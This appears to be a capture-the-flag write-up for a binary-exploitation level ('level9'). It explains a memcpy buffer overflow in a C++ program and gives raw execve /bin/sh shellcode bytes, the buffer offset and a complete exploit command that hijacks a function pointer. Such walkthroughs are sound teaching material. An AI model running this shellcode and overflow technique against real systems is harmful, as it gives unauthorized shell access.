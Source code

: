 we can see from binary ninja that the program is probably cpp as the class `N` imply.
![code](./ressources/binja.png)
the class N contain a number, and a `char *` which is set from `argv[1]`.
the end of main use the operator+ of the class to sum two `N` elements together and return the result.
the operator+ function is defined right after the setAnnotation function which `memcpy(&annotation, argv[1], strlen(argv[1]))`, here we can buffer overflow the internal annotation and write memory.
we can overwrite the function pointer of the class to execute our shellcode.

we can see in binary ninja that to execute the operator+, in assembly it actually dereference the first `N` two times : `return (**eax_1)(eax_1, eax)`.

it mean that our exploit needs to include it's own address twice, so that the first dereference point to the string, and the second point to itself, so that the shellcode is executed.
the exploit will look like this:
`"own adress + shellcode + filler" + addr of the string`

running `ltrace ./level9 iiii` we can see the call to memcpy, and the dest address; `0x0804a00c`.
the difference between the memcpy call and the previous call gives us the size of the buffer; `0x804a078` - `0x0804a00c` = 108.
using the same shellcode as level2, which is 25 long, + 4 byte for the address, we must add 79 of filling.

`\x0c\xa0\x04\x08 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80 + i*79 + \x0c\xa0\x04\x08`

running it:
`./level9 $(python -c "print '\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'i'*79 + '\x0c\xa0\x04\x08'")`
